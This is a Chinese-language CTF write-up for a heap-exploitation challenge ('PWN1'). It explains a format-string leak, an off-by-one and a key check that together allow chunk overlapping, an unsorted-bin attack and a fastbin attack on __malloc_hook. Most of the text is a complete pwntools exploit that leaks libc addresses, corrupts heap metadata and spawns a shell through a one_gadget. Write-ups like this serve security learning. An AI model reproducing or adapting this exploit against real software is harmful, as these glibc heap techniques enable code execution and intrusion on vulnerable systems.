 ## PWN1 WriteUp



### 考点：fmt、offbyone、chunk overlapping、unsortedbin attack、fastbin attack

### 漏洞点

1. banner 函数处有一处格式化字符串漏洞，可以用来泄露栈上的程序基地址和 libc 地址

![](https://raw.githubusercontent.com/selfishspring/blogphoto/master/20191127124647.png)

2. 在 get_input 函数处，存在一处 offbyone

![](https://raw.githubusercontent.com/selfishspring/blogphoto/master/20191127124715.png)

3. 在 add_note 函数中，只有当 key = 0x2B 时，可以 malloc 任意大小的 chunk，否则不能 malloc fastbin 大小的 chunk：

![](https://raw.githubusercontent.com/selfishspring/blogphoto/master/20191127124737.png)

3. 所以这里利用 offbyone 配合 unsorted bin attack，使得 key 为 0x2B（malloc+88 的低 12 bit 的字节是 B），再使用一次 chunk overlapping，即可进行 fastbin attack，之后覆盖 fd 为 malloc 上方，覆盖 malloc_hook 即可。



### EXP

```
from pwn import *

#context.log_level="debug"
DEBUG=1
EXEC_FILE = "./pwn1"
REMOTE_LIBC = "/home/h4lo/ctf/glibc/glibc_2_23/glibc-2.23/_debug/lib/libc-2.23.so"

def main():
    if DEBUG:
        r = process(EXEC_FILE)
        elf = ELF(EXEC_FILE)
        libc = elf.libc
        one_gadget = 0xce51c
    else:
        r = remote("")
        elf = ELF(EXEC_FILE)
        libc = ELF(REMOTE_LIBC)
	one_gadget = 0xce51c

    def menu(idx):
        sleep(0.1)
        r.recv()
        sleep(0.1)
        r.sendline(str(idx))

    def add(idx,size,content):
        menu(1)
        r.recv()
        r.sendline(str(idx))
        r.recv()
        r.sendline(str(size))
        r.recv()
        r.sendline(str(content))

    def delete(idx):
        menu(2)
        r.recv()
        r.sendline(str(idx))

    '''
    def show(idx):
        menu()
            r.recv()
            r.sendline(str(idx))
    '''

    def edit(idx,content):
        menu(4)
        r.recv()
        r.sendline(str(idx))
        r.recv()
        r.sendline(str(content))
        

    r.recv()

    r.sendline("%15$lx%11$lx")


    r.recvuntil("Hello, ")

    libc_addr = eval("0x"+r.recv(2*6)) - 267 - libc.symbols['__libc_start_main']

    success(hex(libc_addr))

    base_addr = eval("0x"+r.recv(2*6)) - 28 - 0x116a

    success(hex(base_addr))

    add(0,0x88,'a')
    add(1,0x88,'a')
    add(2,0x88,'a')
    add(3,0x88,'a')
    add(4,0x88,'a')
    add(5,0x88,'a')


    delete(0)
    edit(3,'a'*0x80+p64(0x240)+p8(0x90))

    delete(4)

    add(0,0x88,'a')
    add(4,0x88,'a')
    add(6,0x88,'a')

    edit(0,'a'*0x88+p8(0x71))
    edit(1,'a'*0x60+p64(0)+p64(0x21)+'a'*0x18+p64(0x71))
    edit(2,'a'*0x60+p64(0)+p8(0x21))

    #add(7,0x88,'a')
    #edit(1,p64(0)+p64(base_addr+0x20202f))

    edit(3,p64(0)+p64(base_addr+0x20202f))
    #add(5,0xf8,'a')
    #add(6,0x1f0,"a")
    delete(1)
    delete(2)

    add(1,0x110,'a')
    edit(6,p64(libc_addr + libc.symbols['main_arena'] - 0x30 - 3))

    #pause()
    r.sendlineafter(">> ",'1')
    r.sendlineafter(":",'2')
    #add(2,0x68,'a')
    
    r.sendlineafter(":\n",str(0x68))
    if "hack" in r.recvline():
        return
    r.sendline("H4lo")

    payload = 'a'*0x13 + p64(libc_addr + one_gadget)	# one_gadget
    add(8,0x68,payload)

    add(9,0x68,"H4lo")

    r.interactive()

if __name__ == '__main__':
    while(True):
    	main()


```



